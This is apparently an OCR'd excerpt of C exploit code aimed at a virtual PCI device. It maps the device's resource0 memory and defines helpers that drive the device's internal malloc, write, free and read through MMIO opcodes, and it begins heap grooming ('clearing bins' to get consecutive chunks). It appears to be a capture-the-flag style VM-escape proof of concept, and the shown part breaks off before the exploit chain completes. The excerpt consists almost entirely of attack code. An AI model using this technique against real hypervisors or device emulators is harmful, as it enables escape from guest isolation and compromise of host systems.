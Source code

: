```c  
			break;  
	}  
	// printf("Written 0x%0*lX\n", type_width,  
	//   writeval, type_width, read_result);  
	fflush(stdout);  
}

// write/read address is like [opcode, 4bit][memid, 4bit][subaddress, 16bit]

// malloc: write to memory with opcode 0  
void mall(void *map_base, int index, int size) {  
	// malloc size = valtowrite * 8  
	off_t target = ((index & 0xF) << 16);  
	pci_write(map_base, target, 'w', size / 8);  
}

// write to pointed area: write to memory with opcode 2  
void write_heap(void *map_base, int index, int64_t writeval, int offset) {  
	// offset is a 16 bit value  
	off_t target = offset | ((index & 0xF) << 16) | ((2 & 0xF) << 20);  
	pci_write(map_base, target, 'w', writeval);  
}  
  
// free: write to memory with opcode 1  
void myfree(void *map_base, int index) {  
	off_t target = ((index & 0xF) << 16) | ((1 & 0xF) << 20);  
	pci_write(map_base, target, 'w', 0);  
}

// read from pointer: read memory  
void myread(void *map_base, int index, int offset) {  
	// read 4 bytes, unused  
	off_t target = ((index & 0xF) << 16) | offset;  
	pci_read(map_base, target, 'd');  
}

int main(int argc, char **argv) {  
	int fd;  
	void *map_base;  
	char *filename;  
	off_t target;  
	int access_type = 'w';

	filename = "/sys/devices/pci0000:00/0000:00:04.0/resource0";  
	target = 0x0;  
	access_type = 'w';  
	argc = 0;

	if((fd = open(filename, O_RDWR | O_SYNC)) == -1) PRINT_ERROR;  
	printf("%s opened.\n", filename);  
	printf("Target offset is 0x%x, page size is %ld\n", (int) target, sysconf(_SC_PAGE_SIZE));  
	fflush(stdout);

	// map device memory  
	printf("mmap(%d, %ld, 0x%x, 0x%x, %d, 0x%x)\n", 0, MAP_SIZE, PROT_READ | PROT_WRITE, MAP_SHARED, fd, (int) target);  
	map_base = mmap(0, MAP_SIZE, PROT_READ | PROT_WRITE, MAP_SHARED, fd, target & ~MAP_MASK);  
	if(map_base == (void *) -1) PRINT_ERROR;  
	printf("PCI Memory mapped to address 0x%08lx.\n", (unsigned long) map_base);  
	fflush(stdout);

	printf("Clearing bins\n");  
	// clear malloc bins to make sure we will have consecutive chunks  
```